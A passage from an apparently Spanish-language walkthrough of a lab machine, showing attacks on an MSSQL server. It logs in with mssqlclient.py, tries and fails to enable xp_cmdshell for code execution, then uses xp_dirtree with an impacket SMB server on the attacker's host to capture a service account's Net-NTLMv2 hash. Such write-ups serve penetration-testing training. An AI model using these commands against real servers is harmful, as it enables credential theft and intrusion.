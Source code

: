 ```bash
mssqlclient.py WORKGROUP/reporting@10.10.10.125 2>/dev/null

mssqlclient.py WORKGROUP/reporting@10.10.10.125 -windows-auth 2>/dev/null
```

### Attemting to enable xp\_cmdshell component in MSSQL (Failed)

Probaremos de intentar habilitar el componente de **xp\_cmdshell** para así obtener un RCE (Remote Code Execution), pero comprobamos que con el usuario autenticado no disponemos de permisos para  habilitar dicho componente.

```sql
SP_CONFIGURE "show advanced options", 1

xp_cmdshell "whoami"
```

<figure><img src="../../../../../.gitbook/assets/992_vmware_vPijAL875b.png" alt=""><figcaption></figcaption></figure>

### MSSQL Hash Stealing \[Net-NTLMv2] (xp\_dirtree)

En este punto lo que haremos es intentar abusar del componente **xp\_dirtree** para obtener los hashes NTLMv2.

En nuestra Kali nos montaremos un servicio SMB y des la conexión de MSSQL procederemos a listar el contenido del recurso que estamos compartiendo, en nuestra Kali nos habrá llegado el Hash NTLMv2 de la cuenta de servicio que está consultando con **xp\_dirtree**.&#x20;

Comprobamos que obtuvimos el hash NTLMv2 del usuario "mssql-svc"

```bash
smbserver.py smbFolder $(pwd) -smb2support

xp_dirtree \\10.10.14.13\smbFolder\
```

<figure><img src="../../../../../.gitbook/assets/993_vmware_fu9n9VFEXB.png" alt=""><figcaption></figcaption></figure>
